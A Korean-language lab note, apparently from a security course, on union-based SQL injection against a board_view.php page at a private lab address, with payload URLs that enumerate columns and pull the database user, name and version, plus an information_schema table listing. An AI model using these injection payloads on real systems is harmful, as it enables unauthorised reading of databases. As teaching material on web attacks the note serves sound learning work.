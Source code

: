 ![2022-10-26-101컬럼](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-101컬럼.jpg)

<br>

몇번째 컬럼이 게시판 어디에 표시 되는지 확인

```
게시판에 없는 번호를 사용 (주로 -1)
http://172.16.0.110/board/board_view.php?num=-1 union select 1,2,3,4,5,6,7,8,9,10,11 #
```

![2022-10-26-102확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-102확인.jpg)

<br>

몇가지 확인

![2022-10-26-103확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-103확인.jpg)

<br>

원하는 정보 출력 테스트

![2022-10-26-104변경](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-104변경.jpg)

```
http://172.16.0.110/board/board_view.php?num=-1 union select 1,user(),3,database(),version(),6,7,8,9,10,11 #
```

<br>

확인

![2022-10-26-105확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-105확인.jpg)

<br>

information_schema DB 

![2022-10-26-106인포메이션](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-106인포메이션.jpg)

Database Schema 파악 순서

- Database → Table → Column → Data type → Data

<br>

구조 파악

![2022-10-26-107테이블스키마](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-107테이블스키마.jpg)

```
mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
```